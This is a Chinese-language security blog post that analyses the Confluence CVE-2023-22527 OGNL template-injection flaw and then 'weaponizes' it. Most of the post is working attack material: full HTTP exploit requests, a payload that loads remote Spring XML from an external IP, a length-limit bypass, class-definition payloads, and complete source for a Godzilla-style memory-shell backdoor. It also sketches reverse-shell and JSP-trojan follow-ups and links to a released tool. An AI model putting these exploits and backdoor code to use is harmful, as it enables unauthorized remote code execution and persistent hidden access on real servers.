

# Atlassian Confluence CVE-2023-22527 分析及武器化实现 - 先知社区

Atlassian Confluence CVE-2023-22527 分析及武器化实现

- - -

# 0-0 参考文献

[Atlassian Confluence 模板注入代码执行漏洞（CVE-2023-22527） - 先知社区](https://xz.aliyun.com/t/13351?time__1311=mqmxnDBG0QIxcDBqDTeeqBIoK7uktlliiGoD&alichlgref=https%3A%2F%2Fwww.google.com%2F)  
[Bypassing OGNL sandboxes for fun and charities](https://github.blog/2023-01-27-bypassing-ognl-sandboxes-for-fun-and-charities/?ref=blog.projectdiscovery.io#strutsutil:~:text=(PageContextImpl)\-,For%20Velocity%3A,-.KEY\_velocity.struts2.context)

# 0-1 简要分析

漏洞点源自于`/template/aui/text-inline.vm`路由的一个未授权访问，这是一个 velocity 模板文件，该模板文件内容如下

```plain
#set( $labelValue = $stack.findValue("getText('$parameters.label')") )
#if( !$labelValue )
    #set( $labelValue = $parameters.label )
#end

#if (!$parameters.id)
    #set( $parameters.id = $parameters.name)
#end

<label id="${parameters.id}-label" for="$parameters.id">
$!labelValue
#if($parameters.required)
    <span class="aui-icon icon-required"></span>
    <span class="content">$parameters.required</span>
#end
</label>

#parse("/template/aui/text-include.vm")
```

漏洞点自然就在`$stack.findValue("getText('$parameters.label')`明显的一段 OgnlStack 的 findValue 操作，那么 label 参数就会被 ognl 解析。因此 payload 第一段为

```plain
label=aaa\u0027%2b#request.get(\u0027.KEY_velocity.struts2.context\u0027).internalGet(\u0027ognl\u0027).findValue(#parameters.poc[0],{})%2b\u0027
```

用 unicode 是为了防止 url 编码导致参数传入失败。并且 Ognl 是支持 unicode 编码的。之后就是 poc 的第二段

```plain
poc=@org.apache.struts2.ServletActionContext@getResponse().setHeader('Cmd-Responses-Header',(new freemarker.template.utility.Execute()).exec({"id"}))
```

用 freemarker 去做命令执行处理，cmd 回显策略。这一段就是很普通的 ognl 命令回显了，并没有什么其他的操作。

## 0-1.1 有趣的思考

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227111425-4fc7407e-d51e-1.png)

漏洞点中的 context 如上图所示，内容为

```plain
"com.opensymphony.xwork2.ActionContext.locale" -> {Locale@66441} 
"request" -> {RequestMap@66442}  size = 32
 key = "request"
 value = {RequestMap@66442}  size = 32
  "__prepare_recursion_counter" -> {Integer@66509} 1
  "org.apache.catalina.AccessLog.RemoteHost" -> "127.0.0.1"
  "com.atlassian.confluence.util.message.MessagesDecoratorFilter__already_filtered__" -> {Boolean@66513} true
  "Confluence-Request-Time" -> {Long@66515} 1707673048234
  "com.opensymphony.sitemesh.APPLIED_ONCE" -> {Boolean@66513} true
  "org.apache.tomcat.remoteAddr" -> "127.0.0.1"
  "B3-TraceId" -> "a981718bad3947"
  "struts.actionMapping" -> "noActionMapping"
  "__wrap_recursion_counter" -> {Integer@66509} 1
  "org.apache.catalina.AccessLog.Protocol" -> "HTTP/1.1"
  ".KEY_velocity.struts2.context" -> {StrutsVelocityContext@66526} 
  "com.atlassian.confluence.web.ConfluenceJohnsonFilter_already_filtered" -> {Boolean@66513} true
  "brave.propagation.TraceContext" -> {TraceContext@66529} 
  "com.atlassian.gzipfilter.GzipFilter_already_filtered" -> {Boolean@66513} true
  "org.apache.catalina.AccessLog.ServerName" -> "localhost"
  "atlassian.core.seraph.original.url" -> "/template/aui/text-inline.vm"
  "com.atlassian.labs.botkiller.BotKillerFilter" -> {Boolean@66513} true
  "sessioninview.FILTERED" -> {Boolean@66513} true
  "org.apache.struts2.dispatcher.filter.StrutsPrepareFilter.REQUEST_EXCLUDED_FROM_ACTION_MAPPING" -> {Boolean@66538} false
  "com.atlassian.confluence.web.filter.validateparam.RequestParamValidationFilter_already_filtered" -> {Boolean@66513} true
  "brave.servlet.TracingFilter$SendHandled" -> {TracingFilter$SendHandled@66541} 
  "brave.SpanCustomizer" -> {SpanCustomizerShield@66543} 
  "sitemesh.secondaryStorageLimit" -> {Long@66545} -1
  "org.apache.tomcat.request.forwarded" -> {Boolean@66513} true
  "com.atlassian.prettyurls.filter.PrettyUrlsSiteMeshFilter" -> {Boolean@66513} true
  "org.apache.catalina.AccessLog.ServerPort" -> {Integer@66549} 8090
  "os_securityfilter_already_filtered" -> {Boolean@66513} true
  "com.atlassian.core.filters.HeaderSanitisingFilter_already_filtered" -> {Boolean@66513} true
  "com.atlassian.prettyurls.filter.PrettyUrlsSiteMeshFixupFilter" -> {Boolean@66513} true
  "loginfilter.already.filtered" -> {Boolean@66513} true
  "com.atlassian.confluence.impl.profiling.DecoratorTimings" -> {DecoratorTimings@66555} 
  "org.apache.catalina.AccessLog.RemoteAddr" -> "127.0.0.1"
"session" -> {SessionMap@66443}  size = 1
"com.opensymphony.xwork2.dispatcher.PageContext" -> {PageContextImpl@66445} 
"com.opensymphony.xwork2.util.ValueStack.ValueStack" -> {OgnlValueStack@60828} 
"com.opensymphony.xwork2.ActionContext.container" -> {ContainerImpl@66448} 
"com.opensymphony.xwork2.dispatcher.HttpServletRequest" -> {StrutsRequestWrapper@60863} 
"com.opensymphony.xwork2.dispatcher.HttpServletResponse" -> {OAuthFilter$OAuthWWWAuthenticateAddingResponse@66451} 
"last.property.accessed" -> null
"com.opensymphony.xwork2.ActionContext.parameters" -> {HttpParameters@66454}  size = 2
"com.opensymphony.xwork2.dispatcher.ServletContext" -> {StandardContext$NoPluggabilityServletContext@66456} 
"last.bean.accessed" -> null
"com.opensymphony.xwork2.ActionContext.application" -> {ApplicationMap@66459}  size = 21
"com.opensymphony.xwork2.ActionContext.session" -> {SessionMap@66443}  size = 1
"application" -> {ApplicationMap@66459}  size = 21
"attr" -> {AttributeMap@66463} Unable to evaluate the expression Method threw 'java.lang.UnsupportedOperationException' exception.
"current.property.path" -> null
"parameters" -> {HttpParameters@66454}  size = 2
```

其中`.KEY_velocity.struts2.context`对应获取 context 上下文，那么这些其他的属性呢？我们也是可以获取的，是否有其他利用点呢？我相信答案肯定是有的，这里笔者就不偏离主题了，只阐述一下一种可能的思路。今天的重点是武器化

# 0-2 武器化实现

## 0-2.1 出网

### 0-2.1.1 ClassPathXmlApplicationContext

出网的话解决方法也好说，Poc 如下

```plain
POST /template/aui/text-inline.vm HTTP/1.1
Host: localhost:8090
Pragma: no-cache
Cache-Control: no-cache
sec-ch-ua: "Not A(Brand";v="99", "Microsoft Edge";v="121", "Chromium";v="121"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36 Edg/121.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 193

label=aaa\u0027%2b#request.get(\u0027.KEY_velocity.struts2.context\u0027).internalGet(\u0027ognl\u0027).findValue(#parameters.poc[0],{})%2b\u0027&poc=#a=new org.springframework.context.support.ClassPathXmlApplicationContext('http://8.130.24.188:8888/1.xml')
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227111440-58b91c52-d51e-1.png)

这个 Poc 首先是成立的，然后假如想进一步利用就利用 SPEL 去注入内存马即可了。  
exp 的模板如下

```plain
<?xml version="1.0" encoding="UTF-8" ?>
 <beans xmlns="http://www.springframework.org/schema/beans"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" 
xmlns:spring="http://camel.apache.org/schema/spring"
 xmlns:context="http://www.springframework.org/schema/context"
 xsi:schemaLocation="http://www.springframework.org/schema/beans 
http://www.springframework.org/schema/beans/spring-beans.xsd 
http://camel.apache.org/schema/spring 
http://camel.apache.org/schema/spring/camel-spring.xsd 
http://www.springframework.org/schema/context 
http://www.springframework.org/schema/context/spring-context.xsd">
 <context:property-placeholder ignore-resource-not-found="false" ignore
unresolvable="false"/>
 <bean id="ClassBase64Str" class="java.lang.String">
 <constructor-arg 
value="<base64>">
 </constructor-arg>
 </bean>
<bean  class="#
 {T(org.springframework.cglib.core.ReflectUtils).defineClass('<classname>',T(org.springframework.util.Base64Utils).decodeFromString(ClassBase64Str.to
 String()),new javax.management.loading.MLet(new 
java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())
 ).newInstance().test1()}">
 </bean>
 </beans>
```

这样的话我们也可以达到一种武器化。但是既然都出网了，我们为什么不反弹 shell 然后做后渗透呢？你说得对，这一是一种方法

### 0.2.1.2 Agent Memshell+ReverseShell

假如我们通过反弹 shell 获得了一个 confluence 权限，那么我们可以注入内存马吗？答案是肯定的，但是既然都拿到了反弹 shell，我们当然也是可以直接上 C2 平台后渗透的，但是有时候有一些特殊的需求，我们是必须需要内存马的。  
这时候可以使用 vagent 进行后渗透处理。  
[https://github.com/veo/vagent](https://github.com/veo/vagent)  
使用效果如下，我们可以直接进行哥斯拉连接

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227111449-5e08bbe0-d51e-1.png)

至于 agent 内存马的原理就可以自行去了解，阅读一下 vagent 的源码会很有帮助~

```plain
public static Map targetClasses() {
        Map targetClasses = new HashMap();
        Map targetClassJavaxMap = new HashMap();
        targetClassJavaxMap.put("methodName", "service");
        List paramJavaxClsStrList = new ArrayList();
        paramJavaxClsStrList.add("javax.servlet.ServletRequest");
        paramJavaxClsStrList.add("javax.servlet.ServletResponse");
        targetClassJavaxMap.put("paramList", paramJavaxClsStrList);
        targetClasses.put("javax.servlet.http.HttpServlet", targetClassJavaxMap);
        Map targetClassJakartaMap = new HashMap();
        targetClassJakartaMap.put("methodName", "service");
        List paramJakartaClsStrList = new ArrayList();
        paramJakartaClsStrList.add("jakarta.servlet.ServletRequest");
        paramJakartaClsStrList.add("jakarta.servlet.ServletResponse");
        targetClassJakartaMap.put("paramList", paramJakartaClsStrList);
        targetClasses.put("javax.servlet.http.HttpServlet", targetClassJavaxMap);
        targetClasses.put("jakarta.servlet.http.HttpServlet", targetClassJakartaMap);
        if (ServerDetector.isWebLogic()) {
            targetClasses.clear();
            Map targetClassWeblogicMap = new HashMap();
            targetClassWeblogicMap.put("methodName", "execute");
            List paramWeblogicClsStrList = new ArrayList();
            paramWeblogicClsStrList.add("javax.servlet.ServletRequest");
            paramWeblogicClsStrList.add("javax.servlet.ServletResponse");
            targetClassWeblogicMap.put("paramList", paramWeblogicClsStrList);
            targetClasses.put("weblogic.servlet.internal.ServletStubImpl", targetClassWeblogicMap);
        }
        return targetClasses;
    }
```

定义了很多 targetclass，然后利用插秧技术直接插入了一段 shellcode。非常不错的思路

### 0.2.1.3 Windows 系统？

万一是 windows 系统呢？当然这种可能性很小，confluence 一般都是部署在 linux 服务器上的。那假如是 windows 服务器，不能反弹 shell，我们该怎么做？这里提供一种可能的思路，既然是 tomcat 部署的，我们直接笨一点，一段段的 echo 一个 jsp 木马进去就好了。

## 0.2.2 通杀思路

那万一不出网呢？是不是就歇逼了？当然不是，我们仍然是可以注入内存马的，但在这之前我们需要绕过一些东西。

### 0.2.2.1 长度绕过限制

当我们解析 Ognl 的时候，我们拿到的不是 ognl.Ognl 对象，而是 ognltool 对象，这个对象是默认加了黑名单以及一些过滤处理的。就比如下图中设置了 maxLength 为 200

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227111458-63134c4a-d51e-1.png)

也就是我们的 payload 始终不能超过 200，一旦超过了那么就会报错

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227111503-661f1478-d51e-1.png)

这样的话 payload 就作废了，那么我们不妨先看看这个属性是什么

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227111507-68c8c142-d51e-1.png)

一个静态的 static 属性，全局检索一番不难发现  
位于`ognl.Ognl#applyExpressionMaxLength`是可以设置 length 的

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227111512-6bb988a0-d51e-1.png)

这个属性首先默认在配置文件中出现

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227111516-6dcabb64-d51e-1.png)

在 8.5.1 中为 200，在 8.5.3 是 150，当然这都不要紧，因为我们是可以设置 length 的，我们可以通过调用`applyExpressionMaxLength`方法达到类似覆盖的效果

```plain
POST /template/aui/text-inline.vm HTTP/1.1
Host: localhost:8090
Pragma: no-cache
Cache-Control: no-cache
sec-ch-ua: "Not A(Brand";v="99", "Microsoft Edge";v="121", "Chromium";v="121"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36 Edg/121.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 190

label=aaa\u0027%2b#request.get(\u0027.KEY_velocity.struts2.context\u0027).internalGet(\u0027ognl\u0027).findValue(#parameters.poc[0],{})%2b\u0027&poc=@ognl.Ognl@applyExpressionMaxLength(20000000)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227111521-70e248d0-d51e-1.png)

可以看到，成功进入该方法设置属性值，第二次访问会发现属性已经被覆盖。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227111525-737c1f8a-d51e-1.png)

### 0.2.2.2 内存马注入

既然长度限制被我们解决了，那就可以注入内存马了，现在需要绕过的是 Ognl 内置的 EvalChain 检测和黑名单，这里我选择直接 defineclass。

```plain
POST /template/aui/text-inline.vm HTTP/1.1
Host: localhost:8090
Pragma: no-cache
Cache-Control: no-cache
sec-ch-ua: "Not A(Brand";v="99", "Microsoft Edge";v="121", "Chromium";v="121"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36 Edg/121.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 11331

label=aaa\u0027+#request.get(\u0027.KEY_velocity.struts2.context\u0027).internalGet(\u0027ognl\u0027).findValue(#parameters.poc[0],{})+\u0027&poc=(@org.springframework.cglib.core.ReflectUtils@defineClass('ConfluenceFilterMemshell',@org.springframework.util.Base64Utils@decodeFromString(''),@java.lang.Thread@currentThread().getContextClassLoader())).newInstance()
```

那么我们还该思考内存马怎么去构造，这里可以直接参考 beichen 师傅之前的内存马，但是需要做一些微小的变化

```plain
package main;

import java.io.PrintWriter;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Method;
import java.lang.reflect.Proxy;
import java.util.ArrayList;
import java.util.Base64;

public class ConfluenceFilterMemshell extends ClassLoader implements InvocationHandler {
    private static boolean initialized = false;
    private static Object lock = new Object();
    private static Class payloadClass;
    private static String password;
    private static String key;
    public ConfluenceFilterMemshell(ClassLoader loader){
        super(loader);
    }
    public ConfluenceFilterMemshell(){
        synchronized (lock){
            if (!initialized){
                try {
                    Class servletRequestListenerClass = null;
                    try {
                        servletRequestListenerClass = Class.forName("jakarta.servlet.ServletRequestListener");
                    } catch (Exception e) {
                        try {
                            servletRequestListenerClass = Class.forName("javax.servlet.ServletRequestListener");
                        } catch (ClassNotFoundException ex) {

                        }
                    }
                    if (servletRequestListenerClass!=null){
                        addListener(Proxy.newProxyInstance(Thread.currentThread().getContextClassLoader(),new Class[]{servletRequestListenerClass},this),getStandardContext());
                    }
                }catch (Throwable e){

                }
                initialized = true;
            }
        }
    }


    private Object getStandardContext() {
        try {
            Object servletActionContextCompatManager = Class.forName("com.atlassian.confluence.compat.struts2.servletactioncontext.ServletActionContextCompatManager").newInstance();
            Method getRequest = Class.forName("com.atlassian.confluence.compat.struts2.servletactioncontext.ServletActionContextCompatManager").getMethod("getRequest");
            Object request = getRequest.invoke(servletActionContextCompatManager, null);
            Object servletContext = invokeMethod(request, "getServletContext");
            return getFieldValue(getFieldValue(servletContext,"context"), "context");
        } catch (Exception e) {

            return null;
        }
    }

    private String addListener(Object listener,Object standardContext)throws Exception{
        Method addApplicationEventListenerMethod = standardContext.getClass().getDeclaredMethod("addApplicationEventListener",Object.class);
        addApplicationEventListenerMethod.setAccessible(true);
        addApplicationEventListenerMethod.invoke(standardContext,listener);
        return "ok";
    }


    public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {
        if (method.getName().equals("requestInitialized")){
            Object servletRequestEvent = args[0];
            backDoor(servletRequestEvent);
        }
        return null;
    }

    private Object invokeMethod(Object obj,String methodName,Object... parameters){
        try {
            ArrayList classes = new ArrayList();
            if (parameters!=null){
                for (int i=0;i<parameters.length;i++){
                    Object o1=parameters[i];
                    if (o1!=null){
                        classes.add(o1.getClass());
                    }else{
                        classes.add(null);
                    }
                }
            }
            Method method=getMethodByClass(obj.getClass(), methodName, (Class[])classes.toArray(new Class[]{}));

            return method.invoke(obj, parameters);
        }catch (Exception e){
//          e.printStackTrace();
        }
        return null;
    }
    private Method getMethodByClass(Class cs,String methodName,Class... parameters){
        Method method=null;
        while (cs!=null){
            try {
                method=cs.getMethod(methodName, parameters);
                cs=null;
            }catch (Exception e){
                cs=cs.getSuperclass();
            }
        }
        return method;
    }
    public static Object getFieldValue(Object obj, String fieldName) throws Exception {
        Field f=null;
        if (obj instanceof Field){
            f=(Field)obj;
        }else {
            Method method=null;
            Class cs=obj.getClass();
            while (cs!=null){
                try {
                    f=cs.getDeclaredField(fieldName);
                    cs=null;
                }catch (Exception e){
                    cs=cs.getSuperclass();
                }
            }
        }
        f.setAccessible(true);
        return f.get(obj);
    }
    public String getParameter(Object requestObject,String name) {
        return (String) invokeMethod(requestObject, "getParameter", name);
    }
    public String getContentType(Object requestObject) {
        return (String) invokeMethod(requestObject, "getContentType");
    }


    public byte[] aes(byte[] s,boolean m){
        try{
            javax.crypto.Cipher c=javax.crypto.Cipher.getInstance("AES");
            c.init(m?1:2,new javax.crypto.spec.SecretKeySpec(key.getBytes(),"AES"));
            return c.doFinal(s);
        }catch (Exception e){
            return null;
        }
    }

    public static String md5(String s) {String ret = null;try {java.security.MessageDigest m;m = java.security.MessageDigest.getInstance("MD5");m.update(s.getBytes(), 0, s.length());ret = new java.math.BigInteger(1, m.digest()).toString(16).toUpperCase();} catch (Exception e) {}return ret; }

    private void backDoor(Object servletRequestEvent)  {
        try {
            Object request = invokeMethod(servletRequestEvent,"getServletRequest");
            Object responseforvalidate = getFieldValue(getFieldValue(request, "request"), "response");
            this.invokeMethod(responseforvalidate,"setHeader","X-Cmd-Result","ok");
            if (true){
                try {
                    String contentType = getContentType(request);
                    if (contentType!=null && contentType.contains("application/x-www-form-urlencoded")) {
                        String value = getParameter(request,password);
                        if (value!=null){
                            byte[] data = Base64.getDecoder().decode(value);
                            data = aes(data, false);
                            if (data != null && data.length > 0){
                                if (payloadClass == null) {
                                    payloadClass =  new ConfluenceFilterMemshell(request.getClass().getClassLoader()).defineClass(data,0,data.length);
                                } else {
                                    java.io.ByteArrayOutputStream arrOut = new java.io.ByteArrayOutputStream();
                                    Object f = payloadClass.newInstance();
                                    f.equals(arrOut);
                                    f.equals(request);
                                    f.equals(data);
                                    f.toString();

                                    String md5 = md5(password + key);
                                    if (arrOut.size()>0) {
                                        Object response =  getFieldValue(getFieldValue(request,"request"),"response");
                                        PrintWriter printWriter = (PrintWriter) invokeMethod(response,"getWriter");
                                        printWriter.write(md5.substring(0, 16));
                                        printWriter.write(Base64.getEncoder().encodeToString(aes(arrOut.toByteArray(), true)));
                                        printWriter.write(md5.substring(16));
                                        printWriter.flush();
                                        printWriter.close();
                                    }
                                }
                            }
                        }
                    }

                }catch (Throwable e){
                }
            }
        }catch (Exception e){

        }
    }


}
```

我们获取 Context 的类需要改为`com.atlassian.confluence.compat.struts2.servletactioncontext.ServletActionContextCompatManager`  
最后即可成功注入内存马

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227111541-7cd4f660-d51e-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227111545-7f4a201e-d51e-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240228100649-0897fc14-d5de-1.png)

# 工具制作

工具参考北辰师傅的`[CVE-2022-26134-Godzilla-MEMSHELL](https://github.com/BeichenDream/CVE-2022-26134-Godzilla-MEMSHELL)`，做了些简单的改写。  
已经在 Github 上传  
[https://github.com/Boogipop/CVE-2023-22527-Godzilla-MEMSHELL](https://github.com/Boogipop/CVE-2023-22527-Godzilla-MEMSHELL)  
师傅要是觉得不错的话可以给个 Star 支持一下呀
